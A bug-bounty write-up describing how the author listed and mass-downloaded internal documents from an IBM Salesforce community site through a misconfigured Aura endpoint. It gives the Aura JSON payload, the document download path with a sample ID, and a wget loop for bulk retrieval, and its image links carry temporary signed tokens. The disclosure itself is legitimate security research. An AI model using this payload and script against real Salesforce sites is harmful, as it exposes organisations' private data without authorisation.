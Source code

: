```yaml
---
title: "How I was able to access IBM internal documents"
classes: wide
header:
  teaser: /assets/images/crackmes1/ibm.jpg
ribbon: DodgerBlue
categories:
  - bugbounty
toc: true
---
```


Hi, today I will share how I was able to access internal data of https://weathercommunity.ibm.com using salesforce misconfiguration.

This write-up will depends n this great blog: https://web.archive.org/web/20210125200757/https://www.enumerated.de/salesforce
so please read it first then read this write-up.

After I read this blog, I wanted to exploit it in the wild so I now I wanted to see the subdomains which point to on of the following CNAMEs:

*.force.com

*.secure.force.com

*live.siteforce.com

I used this great tool https://github.com/yghonem14/cngo to get CNMAEs of all the websites that have program 
on hackerone through https://chaos.projectdiscovery.io/

I found this subdomain **weathercommunity.ibm.com** which pointing out to: **thercommunity.ibm.com.00de0000000avgcma2.live.siteforce.com**

I found an endpoint like:
     
![](https://images.squarespace-cdn.com/content/v1/5f7770a896185c777e49b396/1602179691337-ZXQYGZ11DJ60P6T3RURB/ke17ZwdGBToddI8pDm48kD6aNKZxB3DN5p6JsVrwzw1Zw-zPPgdn4jUwVcJE1ZvWQUxwkmyExglNqGp0IvTJZcY1lis3u7ujHaqKviAjfgBXb2P7ACMlJX44aBDLb--xfEjN8oatzV-2psMy5gKWM4rq4TCJTzAyL25jm0DX3aYLdXwLHXSvXM5NA8ifPwj1/aura_query.PNG?format=2500w)

then I sent this POST request to the Repeater and changed the ***Message*** parameter to:
```
{"actions":[{"id":"123;a","descriptor":"serviceComponent://ui.force.components.controllers.lists.selectableListDataProvider.SelectableListDataProviderController/ACTION$getItems","callingDescriptor":"UNKNOWN","params":{"entityNameOrId":"MARKER","layoutType":"FULL","pageSize":100,"currentPage":0,"useTimeout":false,"getCount":false,"enableRowActions":false}}]}

```
Replacing the ***MARKER*** string with:

***ContentDocument***

![](https://hackerone-us-west-2-production-attachments.s3.us-west-2.amazonaws.com/yhbkptntl3ejirmp120m63bww7qp?response-content-disposition=attachment%3B%20filename%3D%22sscx.png%22%3B%20filename%2A%3DUTF-8%27%27sscx.png&response-content-type=image%2Fpng&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=ASIAQGK6FURQVWUV5OPW%2F20220304%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220304T203539Z&X-Amz-Expires=3600&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEPr%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEaCXVzLXdlc3QtMiJIMEYCIQCKkKDd%2FYAGDreUjy2PkCVyL4WkLDfQdTTWK%2FQQ%2BXV9dgIhAP4SLBQum5dkwla7qA0bALGXc3YLMn3%2FN5%2B4k4%2FnFNb%2BKvoDCGMQAhoMMDEzNjE5Mjc0ODQ5IgxVuaWbVMzYX%2FFfL7Iq1wMPdnxlUWbOCNct9xMVEH9uFip3Cq%2FZUlXK4B77TUcv5jwABvySCfeeihj1EhLuYl5%2FHWIFvcFJmz2I3KxTEhQ0%2FSdmpvmPDMJuX%2BJ7VBRTX90TG2LOtqeQo6Ahjw4qwMm2UwxvqRv0H%2BfcyBSaI8R7kCZSy4van5BLEcx0nDb%2BnvzekJTklkAOAck4EWN45ZhghIMEJz3W2gdnaSdGKKUekX30a6Mzn7%2BZyrAmEXLKNWqWrCHmr5z%2FAAHihOuqRXSJZaVO6vjW3Tnc1WxmBU4686gtnww41do6IWnHeHDpnMGqHU0zzmi3MU7wQlQH12TYux8s9Vo%2FX%2BANL4LlZbaaYjiSTzZN7S9Mv4MLkygTp4akIT1IXnSE0Njao8utUIT0hieUBCVGKw%2BpaOMJAkMIHQ%2BVToZNO13kP5gdy46BUoqJzqx2XykjU2gLpt2ScOnfCywoYyQxYkX%2FW4ndpHh5UThQaI47ySTKz79L8zg3%2B03WBxUKzzIynXiwfNsq1MY7wPJUrAdD4jDvwnvbwIrCtjJPLDTd4wu2GKNmep15vWBADnE21Rl%2FPgnGbdEQdWN%2FAcM5w3fskXZlwOTA%2F9FqYKvunPLzApawYmt3p%2FyRWZMVdC%2FRF2cw%2FKWJkQY6pAFllJRyfbRP6sIt%2BHrwTfQdejbA4WjdSyNC4Jsi9xsQS4EdtGOBD%2FzZ%2B3CEkgTXlHuCE5v0mQG9EcagoiB9viBTO7MF%2Bo4%2FPo7CEPfokbbjM2BNv2GoQt7WxPpGgVKojb76omwz7VVH1bx0ia2VId2Y7JZw3%2Bhh6OH2%2BqzokDzfJpDSAstF%2FTiA6zHYS1svfGO1yZIV9seNB0XtBjkFPBKo%2BcjGmg%3D%3D&X-Amz-SignedHeaders=host&X-Amz-Signature=ff19e6685aa66f4735dcd739fd13b496c5b21cf58a5f37667d26f4a4a11126d6)

See that there are more than 900 ID.
I extracted the ID value which started with 069 and made a simple bash script to download them one by one
through this endpoint /sfc/servlet.shepherd/document/download/$ID

https://weathercommunity.ibm.com/sfc/servlet.shepherd/document/download/ID

Example: 

https://weathercommunity.ibm.com/sfc/servlet.shepherd/document/download/0690h0000060wuHAAQ

```
while read i
do wget --no-check-certificate "https://weathercommunity.ibm.com/sfc/servlet.shepherd/document/download/$i"
done < $1

```

Sample of the internal images:

![](https://hackerone-us-west-2-production-attachments.s3.us-west-2.amazonaws.com/9p4dbjafg8rtktxubh37ohuyc14s?response-content-disposition=attachment%3B%20filename%3D%220690h000007Aly3AAC%22%3B%20filename%2A%3DUTF-8%27%270690h000007Aly3AAC&response-content-type=image%2Fpng&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=ASIAQGK6FURQZYNIBA6H%2F20220304%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220304T204708Z&X-Amz-Expires=3600&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEPr%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEaCXVzLXdlc3QtMiJIMEYCIQD37f9Upttrr7X0u6Lv9S58bOu6vWvhE5W9%2BqsSiAPkjQIhAKfSpjXF99Cv13J7IfRx2KBI3dOZ%2Bcw5BHX1tw9wq07%2FKvoDCGMQAhoMMDEzNjE5Mjc0ODQ5IgzJyEflzTkp01Ectdsq1wMY9x4YZa6ek3mI86HYnVRSL%2FG%2Bt1kJ%2BewpNkdxHW%2FCc4xWoQnS5n3Er0OEcodDpvldfFFDnlnww5yhAlcX1pUK8bfILR7b6XI3sr3WN16aNzzb5lOLSsoaMfYA2JGyRm9joy3TbXtQozCzmNT%2FNZ03iKBDc%2F5qxAKRa%2BAeLAGSyGeBbXitaOZ53QsWi3HWs7jKfSasgR%2F7N%2FpxdMsOn%2B02ufYcmakGBKwnzVqF2eaQtja75sd4I6aX3XxRaO4xdv4ESEMW6gWy2%2BWnT4p0dB3WdbKqzsImFJw5gLbpa9bPeyK0L2gLRdAjjhO%2FPUtx8fJ%2BekmnqFkXejWbrh5msiRvGL9KDITja4wurm5OvVwQo%2FwR16wNa0Dh7mcZiiDy2In2gPzHGDV4FxRW0NXY%2BcdhFLW9OMDVA%2Bd%2FsE2bcdKj3x9%2FlhMAz5Lgu%2BYnbQ8AWklSHBmP%2BUlsLDE%2Fk0NsTuzTwHSLHQ06zVGIM7V7TOZfjnaYbKUNF%2Bb1HCLJoxTYN3UqJC%2BWe8zE6Wi5gMFtFvAmc0oMr1jtfK3Un3dSLZGUxE9nx4A3RlLafBfxtiWCi2qa2rmVDrwIWvRctOx5bcFyNjzu1NAzZIx4ymQS3EqeZ1uKlp6y1t4w8KGJkQY6pAHsT0iIcDrjKOKLuVzwV%2BX%2BQZPYAAfyiSprxLAmJ6T8JhWjwc1VQtc7KEyFZKfq38antz5jzqT2sYLU3mku76D8AnCjurzoDRbRRbN4DxlQR3stAmWSam8w%2BKWmlCrgY10XCPxgmsAhhu7OsimMbMKcYdF%2BzmbC82gxo3we4RRkdHUMo1KMXR6wtHZaJ6ggJh5PA8ZcUqjCEO9gmTruotlPpHYHcA%3D%3D&X-Amz-SignedHeaders=host&X-Amz-Signature=c3f571905620666c9aac2c51b2aad54b409e3046da2614f705ed86c29e7e5fd2)

![](/assets/images/crackmes/crit.PNG)


***Final word:**
you will not understand anything if you did not read the blog first as he explained erything in it.
